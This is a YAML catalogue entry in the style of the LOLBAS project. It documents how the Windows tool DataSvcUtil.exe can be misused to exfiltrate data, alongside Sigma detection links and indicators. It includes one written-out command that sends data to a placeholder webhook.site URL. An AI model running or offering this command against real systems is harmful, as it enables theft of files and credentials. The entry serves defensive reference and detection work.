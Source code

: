 ```yaml
---
Name: DataSvcUtil.exe
Description: DataSvcUtil.exe is a command-line tool provided by WCF Data Services that consumes an Open Data Protocol (OData) feed and generates the client data service classes that are needed to access a data service from a .NET Framework client application.
Author: 'Ialle Teixeira'
Created: 2020-12-01
Commands:
  - Command: DataSvcUtil /out:C:\Windows\System32\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
Code_Sample:
  - Code: https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/dc030e0128a38510b0a866e1210f5ebd7c418c0b/rules/windows/process_creation/process_creation_lolbas_data_exfiltration_by_using_datasvcutil.yml
  - IOC: The DataSvcUtil.exe tool is installed in the .NET Framework directory.
  - IOC: Preventing/Detecting DataSvcUtil with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching DataSvcUtil.
Resources:
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
---
```

